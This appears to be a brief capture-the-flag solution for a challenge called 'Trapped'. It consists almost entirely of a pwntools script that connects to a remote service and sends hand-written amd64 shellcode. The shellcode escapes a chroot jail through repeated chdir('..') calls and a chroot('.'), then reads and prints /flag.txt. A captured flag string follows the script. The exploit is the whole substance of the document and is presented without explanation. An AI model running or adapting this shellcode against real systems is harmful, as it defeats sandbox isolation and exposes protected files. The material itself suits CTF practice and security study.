


2025-10-29
⚒️ Trapped

from pwn import *
# Connect to remote
io = remote('ipaddress', 9999)
# Receive initial prompt
io.recvuntil(b'Which file would you like to open?\n')
# Send a filename (anything without "flag")
io.sendline(b'.')
# Wait for shellcode prompt
io.recvuntil(b'What would you like me to run next?')
# Shellcode to escape chroot and read /flag.txt
# This uses the classic chroot escape: chdir("..\..") multiple times, then chroot(".")
shellcode = asm(f'''
/* Escape chroot by going up directories */
mov rax, 80 /* chdir */
lea rdi, [rip+dotdot]
syscall
/* Repeat many times to escape */
{chr(10).join(['mov rax, 80; lea rdi, [rip+dotdot]; syscall'] * 50)}
/* chroot to current dir (now outside jail) */
mov rax, 161 /* chroot */
lea rdi, [rip+dot]
syscall
/* Open /flag.txt */
mov rax, 2 /* open */
lea rdi, [rip+flagpath]
xor rsi, rsi /* O_RDONLY */
syscall
mov r8, rax /* save fd */
/* Read flag */
mov rax, 0 /* read */
mov rdi, r8
lea rsi, [rip+buffer]
mov rdx, 100
syscall
/* Write to stdout */
mov rax, 1 /* write */
mov rdi, 1
lea rsi, [rip+buffer]
mov rdx, 100
syscall
/* Exit */
mov rax, 60
xor rdi, rdi
syscall
dotdot:
.asciz ".."
dot:
.asciz "."
flagpath:
.asciz "/flag.txt"
buffer:
.space 100
''', arch='amd64')
io.send(shellcode)
# Get the flag
io.interactive()
flag{5f8c037a7ca4cb89c80174bca5eaf531}

{kind=link}
{kind=link}